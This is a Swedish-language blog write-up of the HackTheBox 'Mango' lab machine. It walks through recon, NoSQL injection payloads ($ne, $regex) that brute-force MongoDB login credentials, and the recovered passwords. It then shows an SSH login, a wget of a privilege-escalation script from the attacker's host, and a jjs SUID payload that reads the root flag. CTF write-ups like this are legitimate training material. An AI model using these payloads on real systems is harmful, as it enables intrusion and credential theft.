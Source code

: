 ```yaml
---
title: "HackThebox: Mango Writeup"
date: 2020-06-4 23:07:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - Swedish
---
```


Jag ligger ett par veckor efter i planeringen, och skulle egentligen publicerat den här wirteupen för länge sedan, men det går inte alltid som man vill! Jag hoppas kunna fylla på här med mer innehåll snarast möjligt. 

Det här inlägget är en writeup på HTB-maskinen Mango, utöver vanlig recon-aktivitet så innefattar den NoSQL-injektioner i MongoDB, lite lösenordsknäckning via Python & SUID-exploatering för privilege escalation, happy reading! 

# Recon
**nmap -sC -sV -oA nmap/initial 10.10.10.162**

~~~
Nmap scan report for 10.10.10.162
Host is up (0.081s latency).
Not shown: 940 closed ports, 57 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Inte så mycket som sticker ut efter att ha kört nmap, däremot uppmärksammade jag ett SSL-cerifikat som exponerade någon form av staging-domän och bestämde mig för att titta på den. 

### SSL Certifikatet

ssl-cert: Subject:
commonName=**staging-order.mango.htb**organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
....

Så jag drar igång gobuster mot staging domänen för att se om där finns något spännande, jag letar efter php-filer med växeln -x eftersom index-filen är av typen php.

**gobuster dir -u https://staging-order.mango.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x php**
~~~


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://staging-order.mango.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/02/18 17:21:45 Starting gobuster
===============================================================
/index.php (Status: 200)
/analytics.php (Status: 200)
Progress: 17365 / 220561 (7.87%)
~~~

Detta visar att det finns en analytics-applikation jag kan komma åt, det här visade sig vara ett s.k. "Rabbit hole" och ledde ingenstans, därför kommer jag inte skriva mer om det.

På staging-domänen finns annars bara en inloggningssida, och som vanligt när det gäller HTB-maskiner brukar namnet i sig vara en ledtråd & så även denna gång mango = mongoDB? 

![Staging-domän](https://jackhack.se/assets/images/staging.png)

Eftersom MongoDB är en NoSQL-databas bestämde jag mig för att testa NoSQL-injektioner, efter att ha kollat upp NoSQL-injektioner hos [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) startade jag upp Burp suite..

# NoSQL Injection (MongoDB)
Några variabler att hålla koll på vid testning: 

* \$eq     "equal to"
* \$gt     "greater than"
* \$gte    "greater than or equal to"
* \$ne     "not equal to"

Väl i Burp interceptade jag inloggnings-requesten & kollade vilken respons jag fick när jag testade logga in med användarnamnet *admin* & lösenordet *test*, responskoden var 200 OK

![Burp](https://jackhack.se/assets/images/burp_1.png)

Samma request med användarnamnet admin & lösenordet *\[$ne]test* (alltså **INTE** *test*) fick jag istället responskoden 302 Found


![Burp 302](https://jackhack.se/assets/images/burp_2.png)

Testet indikerar på att det finns en användare vid namn admin, som inte har lösenordet *test* och kan logga in på sidan. 

Nu skulle det vara möjligt att tecken för tecken lista ut användarnamn & lösenord genom att använda sig av reguljära uttryck, t.ex.:

**Först ta reda på längden på lösenordet**
* username=admin&password[$regex]=^.{1}&login=login
Responskod 200 (lösenordet är alltså INTE ett tecken)
* username=admin&password[$regex]=^.{2}&login=login
Responskod 200, lösenordet är alltså INTE två tecken
* ...
* username=admin&password[$regex]=^.{12}&login=login
Responskod 302 Found, lösenordet är alltså 12 tecken!

Sedan kan samma regexp-metod användas för att testa alla bokstäver,siffror och specialtecken för att tecken för tecken lista ut lösenordet.

Detta är såklart ingenting man vill göra för hand, tur att det finns script för detta, jag använde följande script från [GitHub](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

Efter att ha kört scriptet mot staging-sidan fick jag fram följande inloggningsuppgifter:

* mango:h3mXK8RhU~f{]f5H
* admin:t9KcS3>!0B#2

# User
Eftersom jag kunde se att port 22 var öppen vid Nmap-scanningen testade jag att logga in via SSH, användaren admin fungerade inte men mango-kontot gav access.

Väl inne i maskinen fanns där ingen user-flagga i mango's hemkatalog, så jag bytte till admin-kontot.


~~~
ssh mango@mango.htb

su admin
cd
cat user.txt
~~~
{: .language-bash}
# Root

När jag har fått en limiterad shell brukar jag köra något av privilege escalation scripten LinEnum eller linuxprivchecker, jag förde över linuxprivchecker genom att sätta upp en python-webserver snabbt.

~~~
--- I Kali ---
cd /opt/scripts/
python -m SimpleHTTPServer 80
--- På remote-maskin ---
wget http://10.10.15.23/linuxprivchecker.py
python linuxprivchecker.py
~~~
{: .language-bash}
Scriptet visade en binärfil vid namn "jjs" som har "SUID"-flagga satt och därför kan köras med administratörsrättigheter, jag kollade upp binären i repot [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) för att se vad jag kunde åstadkomma med den. 

Jag fick inte till det med mina försök att använda jjs för att upprätta en reverse-shell mellan min kali-host och maskinen. Däremot kunde jag köra följande kod för att läsa root-flaggan.

~~~
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

root.txt:8a8ef79a7a2fbb01ea81688424e9ab15
~~~
{: .language-bash}

